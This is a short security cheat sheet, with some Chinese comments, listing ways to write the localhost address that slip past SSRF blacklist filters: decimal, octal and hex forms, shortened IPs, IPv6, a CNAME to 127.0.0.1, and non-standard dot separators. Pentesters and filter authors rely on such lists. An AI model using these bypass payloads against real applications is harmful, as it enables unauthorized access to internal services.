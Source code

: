 

## Bypass


### Localhost Blacklist
```bash
http://127.0.0.1
http://localhost

http://127.1     --- bypass 过滤： 数字.数字.数字.数字
http://127.0.1
http://127.0.0.0
http://127.000.000.001

http://0
http://[::1]     -- IPv6 
http://2130706433 (Decimal for 127.0.0.1)
http://0177.0.0.1 (Octal for 127.0.0.1)
http://0x7f000001 (Hexadecimal for 127.0.0.1)

http://localhost.hiroki.com --- cname 127.0.0.1 （也可以使用nip.io 但是有些公司会封掉）

http://127。0。0。1/   --- 非标准分隔符 
```